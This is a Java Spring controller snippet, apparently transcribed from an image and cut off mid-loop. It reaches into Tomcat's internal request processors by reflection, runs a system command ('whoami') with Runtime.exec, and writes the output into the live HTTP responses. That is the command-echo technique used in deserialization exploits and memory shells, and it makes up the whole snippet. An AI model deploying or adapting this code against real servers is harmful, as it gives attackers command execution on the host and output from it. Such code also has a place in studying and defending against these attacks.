 ```
import java.util.List;

@Controller
public class AAAController {
    @RequestMapping("/aaa")
    @ResponseBody
    public void aaa() throws Exception {
//        WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) java.lang.Thread.currentThread().getContextClassLoader();
        WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
        StandardContext standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();

        Field context = Class.forName("org.apache.catalina.core.StandardContext").getDeclaredField("context");
        context.setAccessible(true);
        ApplicationContext applicationContext = (ApplicationContext) context.get(standardContext);

        Field service = Class.forName("org.apache.catalina.core.ApplicationContext").getDeclaredField("service");
        service.setAccessible(true);
        StandardService standardService = (StandardService) service.get(applicationContext);

        Field connector = Class.forName("org.apache.catalina.core.StandardService").getDeclaredField("connectors");
        connector.setAccessible(true);
        Connector[] connectors = (Connector[]) connector.get(standardService);
        
        Class<?>[] Abstractprotocol_list = Class.forName("org.apache.coyote.AbstractProtocol").getDeclaredClasses();
        for (Class<?> aClass : Abstractprotocol_list){
            if(aClass.getName().length()==52){
                Method getHandlerMethod = AbstractProtocol.class.getDeclaredMethod("getHandler",null);
                getHandlerMethod.setAccessible(true);

                Field global = aClass.getDeclaredField("global");
                global.setAccessible(true);
                RequestGroupInfo requestGroupInfo = (RequestGroupInfo) global.get(getHandlerMethod.invoke(connectors[0].getProtocolHandler(),null));

                Field processors = Class.forName("org.apache.coyote.RequestGroupInfo").getDeclaredField("processors");
                processors.setAccessible(true);
                List<RequestInfo> requestInfoList = (List<RequestInfo>) processors.get(requestGroupInfo);

                Field req = Class.forName("org.apache.coyote.RequestInfo").getDeclaredField("req");
                req.setAccessible(true);

                for (RequestInfo requestInfo1 : requestInfoList){
                    org.apache.coyote.Request request = (org.apache.coyote.Request) req.get(requestInfo1);
                    org.apache.catalina.connector.Request request1 = (org.apache.catalina.connector.Request) request.getNote(1);
                    org.apache.catalina.connector.Response response = request1.getResponse();
                    response.getWriter().write("11");
                    InputStream inputStream = Runtime.getRuntime().exec("whoami").getInputStream();
                    BufferedInputStream bufferedInputStream = new BufferedInputStream(inputStream);
                    int a;
                    while ((a = bufferedInputStream.read())!=-1){
                        response.getWriter().write(a);
```